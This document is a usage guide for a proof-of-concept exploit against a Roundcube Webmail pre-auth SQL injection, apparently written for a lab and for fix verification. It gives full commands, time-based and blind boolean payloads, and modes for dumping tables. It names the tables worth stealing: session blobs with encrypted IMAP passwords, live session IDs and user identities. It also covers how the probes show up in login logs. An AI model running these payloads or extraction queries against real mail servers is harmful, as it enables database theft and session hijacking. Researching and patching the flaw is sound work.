

# CVE-2026-48842 PoC — usage

`cve-2026-48842-poc.py` — Roundcube Webmail `virtuser_query` pre-auth SQL injection
(`preg_replace()` backslash escape bypass). Stdlib only, Python 3.7+.

Authorised testing only: every probe is a real login POST against the target.

---

## 0. Quick start against the local lab

```powershell
# 1. bring the lab up (needs Docker Desktop running) — 8080 = 1.7.0, 8081 = 1.7.1
powershell -ExecutionPolicy Bypass -File lab\start-lab.ps1

# 2. vulnerable instance
python poc\cve-2026-48842-poc.py -u http://127.0.0.1:8080
# -> [RESULT] VULNERABLE via: host

# 3. patched instance (control that the fix holds)
python poc\cve-2026-48842-poc.py -u http://127.0.0.1:8081
# -> [RESULT] no injection observed
```

`-u` is the only required argument. Defaults: `--point host --sleep 5 --samples 3 --timeout 30`.

## 1. Which injection point to hit

`--point` selects the `virtuser_query` config key that carries the payload:

| `--point` | hook / where | needs credentials | needs CSRF token | notes |
|---|---|---|---|---|
| `host` (default) | `authenticate` (`index.php:108`) | no | **no** | cleanest proof — no session, no token |
| `alias` | `authenticate` (`index.php:108`) | no | **no** | same code path, second config key |
| `user` | `email2user` (`rcmail.php:744`) | no | yes, plus `@` in the username | PoC fetches a fresh token per request (tokens are single-use) |
| `all` | tries all three | — | — | use this when you don't know which key is configured |

`host`/`alias` are the strongest finding: the request carries no cookie and no token at all.

```powershell
# don't know the target's config? try everything
python poc\cve-2026-48842-poc.py -u https://mail.example.com --point all --sleep 3 --timeout 45
```

## 2. Reading the output

```
[*] baseline: benign username, no payload          <- what a normal failed login costs
    baseline: 0.02s
[*] control : _user = "' OR SLEEP(5)-- -"          <- quote WITHOUT backslash
    control : 0.02s   delta +0.00s
    SLEEP(1) costs 5s => SLEEP() is evaluated ~5 time(s)
[*] payload : _user = "\\' OR SLEEP(5)-- -"        <- backslash + quote
    payload : 25.60s   delta +25.58s
[+] VULNERABLE: 25.58s delay >= threshold 12.50s
```

* **control** — the same payload without the backslash. On a vulnerable target it must show
  *no* delay (escaping works); it is what isolates the bug as the backslash bypass rather than
  "quotes are broken". Good evidence for the report.
* **calibration** — `OR SLEEP(1)` reveals how many times `SLEEP()` is evaluated
  (rows in the virtuser table × queries that fire). Used to size the verdict threshold, and it
  is why the absolute delay is much larger than `--sleep`.
* **verdict** — payload delta ≥ half the calibrated cost, or a newly leaked SQL error
  (error-based fallback when `sql_debug` is on).

Exit codes: `0` = vulnerable, `1` = no injection observed (so it can gate a pipeline),
`130` = interrupted.

If a probe says *truncated by `--timeout`*, raise `--timeout`: with `--sleep 5` and several
queries firing, a vulnerable target can legitimately take 25–40 s to answer.

## 3. Report-only mode (no traffic)

```powershell
python poc\cve-2026-48842-poc.py -u http://127.0.0.1:8080 --dry-run --template "SELECT mail_host FROM virtuser WHERE username='%u'"
```

Prints the payload per point plus the SQL it renders to, so the writeup can show
`... username='\\' OR SLEEP(5)-- -'` without touching the target. Pass `--template` with the
target's actual configured query if you know it.

## 4. Data extraction (impact demonstration)

```powershell
python poc\cve-2026-48842-poc.py -u http://127.0.0.1:8080 --point host `
    --extract "SELECT username FROM virtuser LIMIT 1" --extract-length 5 --extract-sleep 1
# [+] extracted 'SELECT username FROM virtuser LIMIT 1' = 'alice'
```

Three extraction modes, in increasing order of usefulness per request:

| flag | what it does | cost |
|---|---|---|
| `--bool "<condition>"` | one yes/no oracle probe — e.g. `--bool "(SELECT COUNT(*) FROM users)>0"` | 1 request |
| `--extract "<scalar>"` | one value, binary search per character | ~7 requests/char |
| `--dump "<single-column query>"` | reads the row count, then every row | ~7 requests/char/row |

```powershell
# multi-row dump of the users table (measured: alice@example.com, bob@example.com)
python poc\cve-2026-48842-poc.py -u http://127.0.0.1:8080 --point host --extract-sleep 0.5 `
    --dump "SELECT username FROM users" --dump-max-rows 2

# several columns in one pass - the dump query must return exactly ONE column
python poc\cve-2026-48842-poc.py -u http://127.0.0.1:8080 --point host --extract-sleep 0.5 `
    --dump "SELECT CONCAT_WS(0x7c, sess_id, expires_at) FROM session ORDER BY expires_at DESC" --dump-max-rows 3
```



*`--dump "SELECT username FROM users"` against the local 1.7.0 lab: the `users` table read out
row by row through the blind boolean oracle.*

The `dump` query must return exactly one column — aggregate with `CONCAT_WS(0x7c, ...)` otherwise.
Rows are read as `(SELECT * FROM (<query>) AS t LIMIT r,1)`, so `ORDER BY`/`LIMIT`/`WHERE` inside
your query all work.

* Uses a blind boolean oracle: `OR IF(<condition>,SLEEP(n),0)`, binary search per character.
* Measured cost (5 evaluations, `--extract-sleep 0.5`): **2.7 s per true probe, 0.03 s per false
  probe, ~12 s per character.** It scales linearly with evaluations × `--extract-sleep`; use `-v`
  to watch each oracle call.
* Use it with a **single** `--point`; with `--point all` it would re-run per vulnerable point.
* Highest-value targets — the `users` table has no passwords (see the report's §5 inventory):
  `SELECT vars FROM session` (session blobs, incl. the encrypted IMAP password),
  `SELECT sess_id FROM session` (live session IDs), `SELECT email FROM identities`,
  `SELECT CONCAT_WS(0x7c, username, mail_host) FROM users`, plus `@@version` / `user()` /
  `database()` for fingerprinting.

## 5. Tuning and target-specific flags

| flag | when to use it |
|---|---|
| `--sleep N` | raise for noisy/latency-heavy targets, lower (2–3) to stay fast |
| `--samples N` | median over N requests; lower to 1–2 for slow targets (4 requests happen per point) |
| `--timeout N` | must exceed the largest expected delay, otherwise probes are cut off |
| `--insecure` | self-signed / internal TLS |
| `--no-token` | force the pure pre-auth path (no login page fetch at all) |
| `-v` | per-request timings, HTTP status and oracle values — use when a result is surprising |

Operational caution: each probe is a genuine failed login, so it lands in `userlogins` logs and
counts towards Roundcube's `sleep(1)` brute-force slowdown and any account-lockout policy.
Keep `--samples` low on production systems and prefer a single `--point`.

## 6. If it reports "no injection observed"

Work down this list — all of these were measured in the lab:

1. **Wrong point** — `--point all` (the target may only configure `host`, or only `user`).
2. **`virtuser_query` not configured** — the plugin must be in `$config['plugins']` *and* at
   least one of `host`/`alias`/`user` set. No configuration, no sink.
3. **Empty lookup table** — `SLEEP()` is evaluated per scanned row; calibration prints
   "SLEEP(1) had no effect". Try a `UNION SELECT SLEEP(n)` payload variant (column count must
   match the configured query).
4. **Non-MySQL backend** — PostgreSQL/SQLite are not affected: they escape quotes by doubling.
5. **`sql_mode=NO_BACKSLASH_ESCAPES`** — verified non-exploitable in this lab.
6. **Patched** — 1.7.1 / 1.6.16+ (`str_replace()`); confirm with the version banner or
   `CHANGELOG.md`.

## 7. Verifying the fix

```powershell
python poc\cve-2026-48842-poc.py -u http://127.0.0.1:8080 --point all --sleep 3 --timeout 45   # before
python poc\cve-2026-48842-poc.py -u http://127.0.0.1:8081 --point all --sleep 3 --timeout 45   # after
```

Measured in this workspace: 1.7.0 delayed 15.1 s / 15.1 s / 24.5 s on `host`/`alias`/`user`;
1.7.1 showed no delay on any of the three, with identical baselines.
